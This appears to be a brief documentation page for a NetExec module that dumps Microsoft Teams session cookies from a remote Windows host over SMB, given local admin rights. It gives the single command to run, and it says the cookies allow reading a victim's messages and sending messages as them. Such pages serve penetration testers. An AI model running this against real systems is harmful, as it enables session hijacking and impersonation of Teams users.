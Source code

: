 # Steal Microsoft Teams cookies

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

New NetExec module to dump Microsoft Teams cookies thanks to [@KuiilSec](https://twitter.com/KuiilSec) contribution. You can use them to retrieve informations like users, messages, groups etc or send directly messages in Teams.

```
$ NetExec smb <ip> -u user -p pass -M teams_localdb
```
